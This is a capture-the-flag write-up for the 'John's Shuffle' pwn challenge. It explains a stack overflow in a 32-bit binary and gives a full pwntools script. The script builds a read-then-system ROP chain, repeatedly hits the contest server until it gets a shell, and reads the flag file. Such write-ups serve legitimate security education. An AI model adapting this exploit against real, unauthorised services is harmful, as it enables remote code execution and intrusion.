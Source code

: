 # John's Shuffle
John is completely drunk and unable to protect his poor stack.. Fortunately he can still count on his terrific shuffling skills.

```
>>> from pwn import *
>>> elf = ELF('johns-shuffle')
    Arch:          i386-32-little
    RELRO:         Partial RELRO
    Stack Canary:  No canary found
    NX:            NX enabled
    PIE:           No PIE
```

## Recon
The first shot at overflowing by throwing a ton of `A`'s worked. I don't actually know what the vulnerbility was, as I didn't open the binary in IDA.

Once we have control of EIP, and the fact that NX is on, we have to start ROP'ing. Using `pwntools`, We immediately see that we have `system` in our binary, but not the string `/bin/sh`. In order to ROP into `system` we have to have a pointer to the string `/bin/sh`. No worries though, because we also have `read` in our binary. 

## Exploit
* Overflow the stack to control EIP.
* ROP into the following chain:
    * `read` to read an additional input of `/bin/sh` into the .bss segment
    * `system` into the .bss segment where we read our `/bin/sh` string
* ???
* Profit

The binary itself randomizes the GOT each connection, so the exploit can take a while to actually land while waiting for our `system` and `read` addresses to line up properly. Give it a bit, and the exploit lands perfectly.

### Exploit code
```python
from pwn import *

elf = ELF('johns-shuffle')
rop = ROP(elf)

add_esp_8 = rop.pivots[8]
system = elf.symbols['system']

# Found system in ELF
log.info("System: {}".format(hex(system)))

# ROP shellcode
# read '/bin/sh' into a known location
# call /bin/sh from known location via system
rop.read(0, elf.bss(), 8)
rop.system(elf.bss())

# Set up our payload 
payload = 'b' * 166
payload += str(rop)
payload += cyclic(1000)

print rop.dump()

log.info("You can walk away.. this might take while..")
log.info("Waiting on the randomization to work")
while True:
    try:
        # r = process('./johns-shuffle')
        with remote('shuffle.polictf.it', 80) as r:

            # Debug code
            '''
            gdb.attach(r, """
            bp {}
            c
            """.format(hex(elf.symbols['read'])))
            '''

            # PWN
            r.sendline(payload)

            # Sleep enough to wait for the read() call to hit
            sleep(0.2)

            # Write /bin/sh in the .bss segment to use with our system() ROP
            r.sendline('/bin/sh\x00')

            # Command to send to our new shell
            r.sendline('cat /home/ctf/flag')

            # Be sure to retrieve the flag from the socket
            for _ in xrange(4):
                output = r.recv()
                if 'flag' in output.lower():
                    log.info('FLAG: {}'.format(output))
                    raw_input()
    except:
        pass
```
